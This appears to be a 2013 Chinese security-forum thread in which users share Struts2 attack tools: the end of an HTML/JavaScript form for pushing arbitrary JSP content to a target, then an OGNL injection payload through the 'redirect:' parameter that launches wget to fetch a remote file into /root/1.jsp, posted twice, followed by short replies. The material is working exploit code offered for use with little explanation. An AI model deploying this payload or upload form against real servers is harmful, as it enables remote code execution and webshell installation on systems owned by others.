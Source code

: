       alert("Url not allowd empty!"); 
      return ; 
    } 
    if(content.length == 0){ 
      alert("Content not allowd empty!"); 
      return ; 
    } 
    if(fileName.length == 0){ 
      alert("FileName not allowd empty!"); 
      return ; 
    } 
    form.action = url; 
    form.submit(); 
  } 
</script> 
<body> 
<div class="main"> 
  <form id="fm" method="post">   
    URL:<input type="text" value="http://localhost/Struts2/css3.jsp" class="url" id="url"/>&nbsp;&nbsp; 
    FileName:<input type="text" name="f" value="css.jsp" class="fn" id="fn" />&nbsp;&nbsp; 
    <a href="javascript:upload();">Upload</a><br/> 
    <textarea id="content" class="content" name="t" ></textarea> 
  </form> 
</div> 
</body> 
</html>


还有@X发的一个wget的getshell 
?redirect:${%23a%3d(new  java.lang.ProcessBuilder(new java.lang.String[]{'wget','http://www.url.com/xx.txt','- O','/root/1.jsp'} 
)).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b), %23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e), %23piaoye%3d%23context.get ('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23piaoye.getWriter().println (%23e),%23piaoye.getWriter().flush(),%23piaoye.getWriter().close()}
收藏感谢(0)分享到： 1
52 个回复
 
1#DragonEgg (سمَـَّوُوُحخ ̷̴̐خ ̷̴̐خ ̷̴̐خ امارت) 白帽子 | 2013-07-17 22:45
大家都发了，，我就整理了一下。友情提示，自己小命比shell重要哦。。
 
2#Jewer (苦逼的人生。) 白帽子 | 2013-07-17 22:46
- -好吧！！我顶一下0 0
 
3#Ivan (Null.) 白帽子 | 2013-07-17 22:46
这个屌……
 
4#DragonEgg (سمَـَّوُوُحخ ̷̴̐خ ̷̴̐خ ̷̴̐خ امارت) 白帽子 | 2013-07-17 22:47
还有@X发的一个getshell
?redirect:${%23a%3d(new  java.lang.ProcessBuilder(new java.lang.String[]{'wget','http://www.url.com/xx.txt','- O','/root/1.jsp'}
)).start(),%23b%3d%23a.getInputStream(),%23c%3dnew java.io.InputStreamReader(%23b), %23d%3dnew java.io.BufferedReader(%23c),%23e%3dnew char[50000],%23d.read(%23e), %23piaoye%3d%23context.get ('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%23piaoye.getWriter().println (%23e),%23piaoye.getWriter().flush(),%23piaoye.getWriter().close()}
 